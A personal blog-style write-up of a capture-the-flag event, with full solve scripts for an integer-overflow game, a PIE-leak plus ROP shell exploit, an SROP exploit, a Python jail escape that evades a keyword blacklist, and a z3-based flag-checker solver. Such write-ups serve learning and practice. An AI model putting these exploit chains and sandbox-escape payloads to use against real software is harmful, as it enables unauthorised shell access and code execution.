

<style>
img {
    display: block !important;
    max-width: min(100%, 600px) !important;
    width: auto !important;
    height: auto !important;
    margin: 1rem auto !important;
    border-radius: 8px;
    box-shadow: 0 2px 8px rgba(0, 0, 0, 0.1);
}

@media (max-width: 600px) {
    img {
        max-width: 95% !important;
        max-height: 300px !important;
        object-fit: contain !important;
    }
}
a {
    word-wrap: break-word !important;
    display: inline-block !important;
    max-width: 100% !important;
    overflow: hidden !important;
    text-overflow: ellipsis !important;
}
</style>
this was my 2nd ctf, the first being lag n crash last week which lagged n crashed for me :3

here are the challenges i did!
# pwn
## dungeon monster
this is supposed to be a baby pwn and was quite simple to solve. not a bof, fstring vuln, pie leak needed or anything just int overflow to make a number negative

the code is a turn based game between a monster and player, and you get to heal / damage yourself or the monster every turn

the health is defined like this, note the char type. this means that the maximum value for it is 127:
```c
#define SWORD_DAMAGE 10
#define POTION_HEAL 15
#define MONSTER_DAMAGE 15
#define PLAYER_INITIAL_HEALTH 50
#define MONSTER_INITIAL_HEALTH 80
// ...setup
char player_hp = PLAYER_INITIAL_HEALTH;
char monster_hp = MONSTER_INITIAL_HEALTH;
```

and the check to get the flag is when the monster is dead:
```c
if (monster_hp <= 0) {
	printf("You defeated the monster! Victory!\n");
    printf("Here is your reward, valiant warrior: \n");
    system("cat flag.txt");
    exit(0);
}
```

of course you could also just do the normal way of trying to attack the monster but you can't attack and heal at the same time, you'd die before getting its hp to 0 :c

but do you see the issue? because the hp is a char, you can actually keep healing the monster until its hp goes past 127 until it becomes negative again!

by choosing to heal the monster then you on alternate turns, you can stay alive while ensuring that the monster's health overflows, you get the flag and everyone is happy

solve script:
```python
from pwn import *

# p = process('./game')
p = remote("chal1.sieberr.live", 15009)
def move(choice, target):
    p.recvuntil('> ')
    p.sendline(str(choice))
    p.recvuntil('> ')
    p.sendline(str(target))

# heal monster -> wrap around to negative hp, just heal ourself in the meantime
seq = [(2,2),(2,1),(2,2),(2,1),(2,2),(2,2)]
for c,t in seq:
    move(c, t)

p.interactive()
# sctf{im_n0T_fr13Nd5_w1th_tH3_m0n5t3r_th4t5_uNd3r_my_b3d}
```


## bearings check
this is definitely NOT a simple pwn anymore (but it was still the simplest in the ctf and i only solved another pwn challenge after it ended).

it needs ROP + a pie leak to get shell and cat flag.txt

pie randomises the base of the binary such that we can no longer hardcode addresses like 0x4010a for example, but instead we have to calculate relative addresses from the base and get a leak to find where everything is

code:
```c
// gcc -o chal chal.c -Wl,-z,relro,-z,now -fpie -pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

struct proving_ground {
    char name[32];
    void* main_ref;
    char pad[8];
    char vuln[32];
};

void gifts() {
    static char gift[8] = "/bin/sh\x00";
    __asm__(
        "pop %rdi;"
        "ret;"
    );
    system("echo You're going to need to try harder than this...");
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    struct proving_ground field;
    strncpy(field.pad, "\x00\x00\x00\x00\x00\x00\x00\x00", 8);
    field.main_ref = &main;
    puts("To become a pwner, you must first know how to gain your bearings. ");
    puts("Time to prove yourself! ");
    printf("Let's start slow. What is your name? \n> ");
    read(0, field.name, 32);
    getchar();
    printf("Very well, %s. Now, let's see what you've got! \n> ", field.name);
    read(0, field.vuln, 2048);
    getchar();
    puts("I hope that worked out for you...");
    return 0;
}

```

so what we can notice here is that:
1. there is PIE enabled
2. there is a buffer overflow to `field.vuln`, 2048 bytes into a 32 byte buffer
3. there is a free `/bin/sh` and ROP gadget (`pop rdi, ret`) to our own shellcode

in the first input we can actually leak the address of `main` and defeat PIE already! because if we input `b'A'*32'` you'll see this:

```
b"Very well, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb1QUUUU. Now, let's see what you've got! \n"
```

where the bit afterwards is `main_ref`. Waow........

so to get the PIE base, just subtract it from the main address in the unslid binary, which you can find using objdump -t or just `elf.symbols.main`

```python
elf = ELF('./chal')
pie_base = leaked - elf.symbols.main
elf.address = pie_base
```

afterwards, we get to do the fun bit and scream some As + our rop chain.

the pop rdi; ret gadget is used because we need to set up function arguments for our ROP chain.

in x64 calling convention, the first argument to a function goes in the rdi register. Since we want to call system("/bin/sh"), we need to put the address of "/bin/sh" into rdi before calling system().

the pop rdi instruction takes our "/bin/sh" address from the stack and loads it into rdi, then ret continues to the next part of our chain.

there is no normal libc leak to run our own shell, but because there is already `system()` in the code, we can use that to our advantage and call it to run `system(/bin/sh)` instead

```python
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
binsh = next(elf.search(b"/bin/sh\x00"))
system_plt = elf.plt['system']

offset = 32
offset += 8 #rbp
payload = flat(
    b"A"*offset,
    pop_rdi,
    binsh,
    system_plt
)
```

now this works fine locally but not on the remote server. i spent an hour banging my head on the wall until i realised that there was a hidden issue - the MOVAPS error..??

there's a blogpost [here by Elma](https://pwn.elmo.sg/miscellaneous/movaps-issue.html) and [here by Fernweh](https://blog.wohin.me/posts/nus-greyhats-welcome-ctf-2021-wp-pwn/) that describes it, but there is a stack alignment issue. some x64 instructions (like MOVAPS) require the stack to be aligned to 16-byte boundaries, which are used when calling `system()`

this can be solved by simply adding a ret before running our rop chain.

the final solve script looks like this:
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
context.log_level = 'debug'
elf = ELF('./chal')
# p = process('./chal')
p = remote('chal1.sieberr.live', 15001)

p.recvuntil(b"> ")
p.sendline(b"A"*32)

line = p.recvline()
print(line)
start = line.find(b"Very well, ") + len(b"Very well, ")
end = line.find(b". Now, let's see what you've got! \n", start)
leak = line[start:end]

addr_bytes = leak[32:]
leaked = u64(addr_bytes.ljust(8, b"\x00"))
# 0x5555555551b1 - gets shell
# 0x5aa2fae791b1 - remote
log.info(f"Leaked main() address: 0x{leaked:x}")
pie_base = leaked - elf.symbols.main
log.info(f"PIE base: {hex(pie_base)}")
elf.address = pie_base

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
# this is needed on remote because of the MOVAPS issue - to fix this just add a ret
# https://blog.wohin.me/posts/nus-greyhats-welcome-ctf-2021-wp-pwn/
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info(f"pop rdi: {hex(pop_rdi)}")
binsh = next(elf.search(b"/bin/sh\x00"))
log.info(f"binsh: {hex(binsh)}")
system_plt = elf.plt['system']
log.info(f"system plt: {hex(system_plt)}")
offset = 32
offset += 8
payload = flat(
    b"A"*offset,
    ret,
    pop_rdi,
    binsh,
    system_plt
)
print(payload)
p.recvuntil(b">")
p.sendline(payload)
p.interactive()
# sctf{N0W_1_C4N_T3LL_T0P_FR0M_B0TT0M}
```

## bonus: SieberrrROP
i have never seen a binary distributed with assembly code instead of plain C, but it was very interesting and I learned 2 new things from pwning and getting this flag!

unfortunately i wasnt able to get it during the ctf and i got rly bummed about it :C buuut it's okay the more you learn!!

```asm
global _start

section .text
_start:
    ; Reserve 0x100 bytes on the stack for local buffer
    enter 0x100, 0x0

    ; Call the timer function to set an alarm
    call set_alarm

    ; Syscall: write(stdout, msg, msg_len)
    mov rax, 0x1          ; syscall number for write
    mov rdi, rax          ; file descriptor 1 (stdout)
    lea rsi, [rel msg]    ; pointer to message
    mov edx, msg_len      ; message length
    syscall

    ; Syscall: read(stdin, rsp, 0x1000)
    xor eax, eax          ; syscall number 0 (read)
    xor edi, edi          ; file descriptor 0 (stdin)
    mov rsi, rsp          ; buffer on stack
    mov edx, 0x1000       ; number of bytes to read
    syscall

    leave
    ret

set_alarm:
    ; Syscall: alarm(15)
    mov edi, 15
    mov eax, 37           ; syscall number for alarm
    syscall
    ret

section .data
    msg: db "As a pup, the wolf YEARNED for the /bin/sh"
    msg_len: equ $ - msg
```

so this might seem really confusing (it was to me) but the comments helped massively with helping me understand what's going on

so there's a 100 byte buffer, but a 1000 byte read into it. so buffer overflow and rop to /bin/sh, right? there's already a string so nicely for it!!

nuh uh D:

the issue here is that because it's in assembly, there aren't ANY rop gadgets outside of the assembly code that can be used, so what do we do? is there even a way?

well Yes! the title of the challenge already provides a hint; SROP.

### what is SROP?
also known as **SigReturn Oriented Programming**, it uses the linux `rt_sigreturn` syscall. what this syscall does is take a **sigreturn frame** from the stack which allows us to pop the values of all our registers to run whatever we want

this gets rid of the need for any pop rdi; ret gadgets like in the previous challenge

the requirements this needs is for us to work is:
* 300~ bytes of input (yep we have 1000)
* `syscall` gadget (yep! read is a syscall)
* set the `rax` register to 15 / `0xf`  → this is important later, there's currently no way ... or is there?

fortunately for us, this binary does NOT have PIE so we can use `objdump -t` to get all the addresses we need, which are:
1. syscall
2. /bin/sh string

we can find this via pwntools elf as well, like this:
```python
elf = ELF('./vuln')
rop = ROP(elf)
SYSCALL = rop.find_gadget(["syscall"])[0]
BINSH = next(elf.search(b"/bin/sh"))
```

what i'm learning from this is that pwntools has basically everything :sob:, because it also has a class for us to construct a sigreturn frame like so:
```python
frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve()
frame.rdi = BINSH           # pointer to "/bin/sh"
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL         # `syscall` gadget
```

but this is still not enough! we can't set rax to 15 then run a syscall to get our srop chain to work, so now what?

this is where i stopped and couldnt figure out how to get my chain to run, but the solution was the last remaining unused code - the `set_alarm` function! why / how is it used???

the `alarm()` syscall returns the seconds remaining from any previous alarm into rax

if there was an old alarm with 15 seconds left, rax becomes 15, and so we can call it twice to set it to what we need to run the syscall for `sigreturn`!

so to recap, what we have to do is:
1. scream some As
2. `set_alarm()` twice → rax = 15
3. `syscall()` → takes from whatever is in rax
4. our sigreturn frame

and we get our shell!
the final solve script looks like this:
```python
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'

elf = ELF('./vuln', checksec=False)
rop = ROP(elf)

# p   = process(elf.path)
p = remote("chal1.sieberr.live", 15005)

SYSCALL = rop.find_gadget(["syscall"])[0]
BINSH = next(elf.search(b"/bin/sh"))
set_alarm = 0x40102f
print(hex(SYSCALL))
print(hex(BINSH))

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve()
frame.rdi = BINSH           # pointer to "/bin/sh"
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL         # `syscall` gadget

OFFSET  = 0x100 + 8
payload = flat(
    b'A'*OFFSET,
    p64(set_alarm)*3, # why 3 times? idk https://amritabi0s.wordpress.com/2017/12/24/inctf-2017-stupidrop-writeup/
    p64(SYSCALL),
    bytes(frame)
)
p.recvuntil(b"YEARNED for the /bin/sh")
p.send(payload)
p.interactive()
# sctf{sieberrrrsec_r0p_h4h4h4h4h4}
```

i didn't know that the `alarm()` syscall did that but i guess now i know :p i won't make this mistake again!!

# misc
# baby-pyjail
this was my first time doing a pyjail and i learned a bunch about how cool / messed up python is in letting anything fly essentially

the jail is essentially an `eval()` that checks for any blacklisted full words (not substrings!!!)

```python
exp = input("> ")
check(exp)
try:
    eval(exp, {})
except Exception as e:
    print(f"Error: {e}")
```

the check function looks like this:
```python
blacklist = ["eval", "exec", "compile", "open", "import", "help", "breakpoint", "builtins", "locals", "globals", "flag"]

def check(exp):
    try:
        if not exp.isascii():
            print("bad ascii character detected!")
            exit()

        for banned in blacklist:
            if banned in exp:
                print(f"bad word detected: {banned}")
                exit()
    except Exception as e:
        print(f"Error during check: {e}")
        exit()
```

so we can't run those specific words, but there is a very cool [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) that shows a lot of cool ways to get around stuff like this. and also, `flag` is banned but not `fl+ag` which makes it easy to get around, same goes for everything really

with some throwing shit and seeing what sticks and some gpt help, it came up with a nice approach to get the flag:

```python
(cls := [c for c in ().__class__.__base__.__subclasses__() if c.__module__=="warni"+"ngs" and c.__name__=="catch_war"+"nings"][0], g_string := "__glo"+"bals__", g_dict := cls.__init__.__getattribute__(g_string), b_string := "__built"+"ins__", b_dict := g_dict[b_string], o_func := b_dict["op"+"en"], meow := o_func("fla"+"g.txt").read(), p := b_dict["pr"+"int"], p(meow))

```

okayyy so this looks like a mess, **what does it do?**

1. find `catch_warnings` class:
   - `().__class__.__base__` from an empty tuple gets the `object` class
   -  find `warnings.catch_warnings` using a list comprehension
   - Split "warnings" and "catch_warnings" to avoid detection

2. access `__globals__`:
   - get `__globals__` as `__glo` + `bals__` to avoid "globals"
   - use `__getattribute__` to access the `__globals__` dictionary from the `__init__` method

3. get  `__builtins__`:
   - Construct `__builtins__` as `__built` + `ins__` to avoid "builtins"
   - Retrieve from `__globals__` dictionary

4. get `open`:
   - Split "open" into "op" + "en" to avoid detection
   - Retrieve `open` from `__builtins__`

5. read flag:
   - Split "flag.txt" into "fla" + "g.txt" to avoid "flag"
   - Call `open` and read content

6. print flag:
   - Split "print" into "pr" + "int" to avoid detection
   - Call `print` with the flag content


flag: sctf{go0_G0O_9a9a}

# rev
## flagchecker3000
this was a pain in the ass... it felt more like crypto than actual RE
upon taking the binary into IDA pro, the `main` function looked like a fucking mess



so there was a lot of variables (v3-v55) and math... a lot of math.....

i dumped it into C pseudocode and essentially what it's doing is:

1. take the string and pass it into v55
2. v3-v52 will add a LOT of numbers together
3. run some comparisons / linear equations to check if the numbers are valid
4. if NOT, set v54 to 0
5. if v54 is 1, print flag

```c
v105 = __readfsqword(0x28u); printf("enter the flag: "); __isoc23_scanf("%s", &v55);

v3 = -28 * v96
+ -24 * v93 + 13 * v92 + 13 * v91 + -5 * v90 + -9 * v87 + 6 * v86 + -2 * v85 + 38 * v83 + -13 * v82 + -44 * v81 + -10 * v80 + -11 * v77 + 43 * v74 + 44 * v73 + -22 * v72 .....

v54 = -36 * v100 + -21 * v99 + -22 * v98 + v3 + 38 * v101 - 31 * v102 - 42 * v104 == 13061;

v4 = -22 * v95
```

to solve this, i (and ai) made a script that parses my pseudocode and extracts the useful math equations, then made a z3 solver to get the flag.

tbh i think i could have just set v54 to 1 in the end now i think about it butttt whateverrrr

output / flag:
```bash
Found assignment: v3 = -28 * v96 + -24 * v93 + 13 * v92 + 13 * v91 + -5 *...
Found assignment: v4 = -22 * v95 + -21 * v94 + -47 * v93 + -20 * v90 + 35...
Found assignment: v5 = 41 * v95 + -30 * v92 + 41 * v91 + 19 * v90 + -7 * ...
...snip
Found assignment: v50 = 50 * v98 + -27 * v97 + 43 * v92 + 39 * v91 + -19 *...
Found assignment: v51 = 7 * v96 + 3 * v95 + -41 * v93 + 46 * v92 + 11 * v8...
Found assignment: v52 = 8 * v96 + -26 * v95 + 29 * v94 + 28 * v93 + 2 * v9...
Found 50 variable assignments
Found v54 constraint: -36 * v100 - 21 * v99 - 22 * v98 + v3 + 38 * v101 ... == 13061
Found 49 if-constraints
Total variables found: 100
Solving constraints...
s
sc
sct
sctf
sctf{
sctf{h
sctf{h0
...snip
sctf{h0p3_y0u_d1d_n07_bru73_f0rc3_7h15_bb36204c84}
```

solve script:
```python
#!/usr/bin/env python3
import re
import sys
from z3 import Solver, Int, sat

def extract_multiline_assignment(lines, start_idx, var_name):
    """Extract a multiline variable assignment starting from start_idx"""
    assignment = ""
    i = start_idx

    # Find the line with the assignment
    while i < len(lines) and var_name not in lines[i]:
        i += 1

    if i >= len(lines):
        return None, i

    # Extract the assignment part after the = sign
    line = lines[i]
    equals_pos = line.find('=')
    if equals_pos == -1:
        return None, i

    assignment = line[equals_pos + 1:].strip()
    i += 1

    # Continue reading until we find a semicolon or hit another assignment/if statement
    while i < len(lines):
        line = lines[i].strip()
        if line.startswith('if') or line.startswith('v') or line.startswith('LOBYTE') or line.startswith('return'):
            break
        if ';' in line:
            # Add everything up to the semicolon
            semicolon_pos = line.find(';')
            assignment += " " + line[:semicolon_pos]
            break
        assignment += " " + line
        i += 1

    return assignment.strip(), i

def normalize_expression(expr):
    """Normalize expression by removing extra whitespace and fixing formatting"""
    # Remove extra whitespace
    expr = ' '.join(expr.split())
    # Fix signs at start of terms
    expr = re.sub(r'\s*\+\s*-', ' - ', expr)
    expr = re.sub(r'\s*-\s*-', ' + ', expr)
    expr = re.sub(r'^\s*\+\s*', '', expr)
    return expr

def parse_flagchecker(filename):
    """Parse the decompiled C file and extract all constraints"""
    with open(filename, 'r') as f:
        text = f.read()

    # Find main function
    main_match = re.search(r'int __fastcall main\s*\([^)]*\)\s*\{([\s\S]*?)return 0;', text)
    if not main_match:
        print("ERROR: Could not find main function")
        sys.exit(1)

    main_body = main_match.group(1)
    lines = main_body.split('\n')

    # Extract variable assignments v3 through v52
    assignments = {}
    i = 0
    while i < len(lines):
        line = lines[i].strip()
        # Look for variable assignments
        var_match = re.match(r'v(\d+)\s*=', line)
        if var_match:
            var_num = int(var_match.group(1))
            if 3 <= var_num <= 52:
                var_name = f'v{var_num}'
                assignment, next_i = extract_multiline_assignment(lines, i, var_name)
                if assignment:
                    assignments[var_name] = normalize_expression(assignment)
                    print(f"Found assignment: {var_name} = {assignment[:50]}...")
                i = next_i
            else:
                i += 1
        else:
            i += 1

    print(f"Found {len(assignments)} variable assignments")

    # Extract the initial v54 constraint
    v54_match = re.search(r'v54\s*=\s*(.*?)\s*==\s*(-?\d+);', main_body, re.DOTALL)
    if not v54_match:
        print("ERROR: Could not find v54 constraint")
        sys.exit(1)

    v54_expr = normalize_expression(v54_match.group(1))
    v54_value = int(v54_match.group(2))
    print(f"Found v54 constraint: {v54_expr[:50]}... == {v54_value}")

    # Extract all if != constraints
    if_constraints = []
    if_pattern = re.compile(r'if\s*\(\s*(.*?)\s*!=\s*(-?\d+)\s*\)', re.DOTALL)

    for match in if_pattern.finditer(main_body):
        expr = normalize_expression(match.group(1))
        value = int(match.group(2))
        if_constraints.append((expr, value))

    print(f"Found {len(if_constraints)} if-constraints")

    return assignments, v54_expr, v54_value, if_constraints

def create_z3_expression(expr_text, z3_vars):
    """Convert text expression to Z3 expression"""
    # Replace variable names with Z3 variables
    expr = expr_text
    for var_name in sorted(z3_vars.keys(), key=lambda x: len(x), reverse=True):
        expr = re.sub(r'\b' + var_name + r'\b', f'z3_vars["{var_name}"]', expr)

    # Fix multiplication (insert * between numbers and variables)
    expr = re.sub(r'(-?\d+)\s*z3_vars', r'\1 * z3_vars', expr)

    try:
        return eval(expr, {"z3_vars": z3_vars})
    except Exception as e:
        print(f"Error parsing expression: {expr_text}")
        print(f"Converted to: {expr}")
        print(f"Error: {e}")
        return None

def solve_constraints(assignments, v54_expr, v54_value, if_constraints):
    """Solve the constraint system using Z3"""
    # Create Z3 variables for all variables we encounter
    all_vars = set()

    # Add variables from assignments
    for var_name, expr in assignments.items():
        all_vars.add(var_name)
        all_vars.update(re.findall(r'v\d+', expr))

    # Add variables from v54 expression
    all_vars.update(re.findall(r'v\d+', v54_expr))

    # Add variables from if constraints
    for expr, _ in if_constraints:
        all_vars.update(re.findall(r'v\d+', expr))

    print(f"Total variables found: {len(all_vars)}")

    # Create Z3 integer variables
    z3_vars = {var: Int(var) for var in all_vars}
    solver = Solver()

    # Constrain input variables v55-v104 to printable ASCII
    for i in range(55, 105):
        var_name = f'v{i}'
        if var_name in z3_vars:
            solver.add(z3_vars[var_name] >= 32)
            solver.add(z3_vars[var_name] <= 126)

    # Add assignment constraints
    for var_name, expr in assignments.items():
        z3_expr = create_z3_expression(expr, z3_vars)
        if z3_expr is not None:
            solver.add(z3_vars[var_name] == z3_expr)

    # Add v54 constraint
    z3_v54_expr = create_z3_expression(v54_expr, z3_vars)
    if z3_v54_expr is not None:
        solver.add(z3_v54_expr == v54_value)

    # Add if-constraints (condition must be true, so expression == value)
    for expr, value in if_constraints:
        z3_expr = create_z3_expression(expr, z3_vars)
        if z3_expr is not None:
            solver.add(z3_expr == value)

    print("Solving constraints...")

    if solver.check() == sat:
        model = solver.model()

        # Extract flag from v55-v104
        flag = ""
        for i in range(55, 105):
            var_name = f'v{i}'
            if var_name in z3_vars and var_name in [str(v) for v in model.decls()]:
                flag += chr(model[z3_vars[var_name]].as_long())
            else:
                flag += "?"
            print(flag)
        print(f"✓ Solution found!")
        print(f"Flag: {flag}")
        return flag
    else:
        print("✗ No solution found")
        return None

def main():
    if len(sys.argv) != 2:
        print("Usage: solve_improved.py flagchecker3000.c")
        sys.exit(1)

    filename = sys.argv[1]

    # Parse the file
    assignments, v54_expr, v54_value, if_constraints = parse_flagchecker(filename)

    # Solve the constraints
    flag = solve_constraints(assignments, v54_expr, v54_value, if_constraints)

    if flag:
        print(f"\nFinal flag: {flag}")
        # sctf{h0p3_y0u_d1d_n07_bru73_f0rc3_7h15_bb36204c84}

if __name__ == "__main__":
    main()

```


references:
* https://book.jorianwoltjer.com/binary-exploitation/return-oriented-programming-rop/sigreturn-oriented-programming-srop
* https://github.com/utisss/foreverctf-writeups/blob/master/pwn-srop.md
* https://amritabi0s.wordpress.com/2017/12/24/inctf-2017-stupidrop-writeup/
